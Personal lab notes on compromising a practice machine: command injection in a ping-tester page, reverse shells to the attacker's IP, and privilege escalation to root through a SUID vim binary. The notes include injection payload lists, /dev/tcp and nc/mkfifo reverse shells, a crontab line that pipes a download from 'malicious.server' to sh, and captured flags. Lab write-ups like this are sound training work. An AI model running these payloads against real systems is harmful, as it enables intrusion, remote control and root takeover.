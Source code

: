 upon initial `web enumeration` the site is a `PING CONNECTION TESTER`
![[Pasted image 20250113125354.png]]
upon testing hitting our own kali `IP address` we are able to hit it
![[Pasted image 20250113125536.png]]
the `?host=192.168.45.245` looks like a place we may be able to get command injection

#### Initial things to try
If `user input` is incorporated into system commands without proper sanitization, test if you can execute arbitrary commands on the server.
Example: Inject payloads into input fields or parameters to execute system commands, such as:
`; ls` or `&& ls` to list files in the current directory.  [ ]
`; cat /etc/passwd` to read sensitive files.
`| whoami` to determine the user context of the application.
Using payloads like `$(id)` or `` `id` `` to execute commands in subshells.
Test using variations of common delimiters (`;`, `&&`, `||`, `|`, `$( )`, `` ` ` ``) depending on the command execution context.

##### Basic Command Injection Payloads
- [ ] 
- [x] `; ls` 
- [x]  `&& ls` 
- [x] `| whoami`
- [x] `; cat /etc/passwd`
- [x] `&& id`
- [x] `$(id)`
- [x] `` `id` ``
- [x] `; echo Hello`
- [x] `;which nc`

---

##### Encoded and Obfuscated Variants

1. URL encoding: `%3Bls` (`;ls`)
2. Base64 encoding: `$(echo aWQ= | base64 -d | sh)` (`id`)
3. Hex encoding: `$'\x69\x64'` (`id`)

---

##### Special Characters and Escaping

1. `\` Injection: `\` followed by the command
2. Single-quote bypass: `'; ls #`
3. Double-quote bypass: `"; ls #`
4. Multi-command chaining: `ls; cat /etc/passwd`

---

##### Environmental Variable and File Descriptors

1. `$(cat /etc/passwd)`
2. `${IFS}ls` (using the IFS variable)
3. `/bin/sh -c ls`
4. `0<&196;exec 196<>/dev/tcp/<IP>/<PORT>;sh <&196 >&196 2>&196`

---

##### Advanced Injection Techniques

1. `;$(id)`
2. `;perl -e 'print "Hacked"'`
3. `&$(python3 -c 'print("Hacked")')`
4. `| awk 'BEGIN {system("ls")}'`
5. `| bash -c 'echo Exploited'`

---

##### System Backdoor Techniques

1. Reverse shell payload: `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`
2. Write to crontab: `; echo '* * * * * /bin/bash -c "curl http://malicious.server | sh"' | crontab -`


#### What worked
`;ls`, highlighted is the file shown with ls
![[Pasted image 20250113125919.png]]
`|whoami`
![[Pasted image 20250113130544.png]]
`; cat /etc/passwd`
![[Pasted image 20250113130949.png]]
`; echo Hello`
![[Pasted image 20250113131722.png]]
`; which nc` - machine has `nc`
![[Pasted image 20250113132302.png]]
testing to see if we can get a `nc` reverse shell - was unsuccessful
`bash nc 192.168.45.245 9000 -e /bin/bash`
`nc 192.168.45.245 9000 -e /bin/bash`
`nc 192.168.45.245 9000 -e sh`
![[Pasted image 20250113133800.png]]
using `/etc/passwd` information was able to find `local.txt` with `;ls /home/dylan`
![[Pasted image 20250113133841.png]]
pulled the `local.txt` with `cat /home/dylan/local.txt`, still need a shell
`63935cdba07178776dde4c63a93c721e`

![[Pasted image 20250113133916.png]]
`wget` payload failed `|wget http://192.168.45.245/test.txt`, struggling to get `RCE` - have `LCE`
- after looking at a walkthrough up to this point - this is the vector, something is wrong with the machine going to reset.
![[Pasted image 20250113135400.png]]
was able to get `;curl 192.168.45.245` to work by restarting the `VPN` and `Reverting` the machine
![[Pasted image 20250113160515.png]]
`python3` server hitting
![[Pasted image 20250113160542.png]]
`nc` one liner reverse shell still didnt work
`http://shakabra/?host=192.168.45.245;nc%20192.168.45.245%209000%20-e%20/bin/bash`
![[Pasted image 20250113160724.png]]
going to try pulling over a reverse shell and executing it
`bash -i >& /dev/tcp/192.168.45.245/9000 0>&1`
![[Pasted image 20250113161010.png]]
pulling it over `/usr/bin/curl 192.168.45.245/revshell.sh`
![[Pasted image 20250113161329.png]]
proof it actually worked
![[Pasted image 20250113161345.png]]
attempted to `chmod` to make executable - dont think it worked
![[Pasted image 20250113161653.png]]
attempted to execute,, definitely didnt work
![[Pasted image 20250113161725.png]]
`python3` is on the machine
going to try `pentestmonkey` reverse shell
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.245",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```
was able to pull over the file, the chmod and execute didnt work - going to have to try to execute
```
http://shakabra/?host=192.168.45.245;curl%20http://192.168.45.245/pentestmonkey.py;chmod%20+x%20pentestmonkey.py|bash
```
![[Pasted image 20250113162240.png]]
the `PWD` of `/var/www/html` is not writeable on this machine
![[Pasted image 20250113163602.png]]
curling over `curl 192.168.45.245/revshell.sh -o /tmp/revshell.sh` to `/tmp`
![[Pasted image 20250113163647.png]]
`ls -ls /tmp/` to make sure it was pulled over
![[Pasted image 20250113163713.png]]
making sure `chmod` is on the machine
![[Pasted image 20250113163730.png]]
changing to `executable` permissions
![[Pasted image 20250113163753.png]]
now it is executable
![[Pasted image 20250113163808.png]]
tried to execute payload and server crashed with `bash /tmp/revshell.sh`
![[Pasted image 20250113163852.png]]
also tried `;/tmp/revshell.sh | bash` didnt work
![[Pasted image 20250113163938.png]]
what I was able to use to get a reverse shell, this had to be placed in the actual ping field to work - the only one that worked was the `nc mkfifo` from revshells
![[Pasted image 20250113174240.png]]
had to be placed in the actual `ping` `COnnection tester`
- a big problem i had when working on this machine was sometimes when i'd ping my own machine it wouldnt hit - in order to fix this i would have to reset the `VPN` constantly
![[Pasted image 20250113175035.png]]
```bash
192.168.45.245; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.245 80 >/tmp/f
```
once I was able to get a reverse shell I spawned in as `www-data` but with no `tty` so I had to upgrade it 
![[Pasted image 20250113175117.png]]
getting a `TTY`
```bash
script /dev/null -c /bin/bash 
CTRL + Z 
stty raw -echo; fg 
reset
Terminal type? screen
```
![[Pasted image 20250113175355.png]]
and was able to get `local.txt`
![[Pasted image 20250113172958.png]]
once got the flag we need to privesc, a method to do this is by utilizing this command which looks for files that can run as `root` with the `SUID` bit set
```bash
find / -perm -u=s -type f 2>/dev/null
```
the `vim.basic` stands out and is also the only one in `GTFO` bins that allows for `SUID` priv esc
![[Pasted image 20250113173239.png]]
`GTFObins` has a method to `privesc` utilizing this but we have to use the `python3` method
![[Pasted image 20250113173431.png]]
```bash
./usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```
once hitting enter with this it puts us in a weird `vim` environment
![[Pasted image 20250113173707.png]]
upon hitting `q` and `ENTER` we get `Terminal Type?` and we have to type `SCREEN` to get output
![[Pasted image 20250113173936.png]]
and after typing `screen` we get put into a root shell
![[Pasted image 20250113174009.png]]
once we are root just look for the flag
```bash
# whoami
root
# find / "proof.txt" 2>/dev/null | grep "proof.txt"
/root/proof.txt
# cat /root/proof.txt
b2ad376b89e2d511e5d4e7ace3a5fdb0
```

![[Pasted image 20250113174142.png]]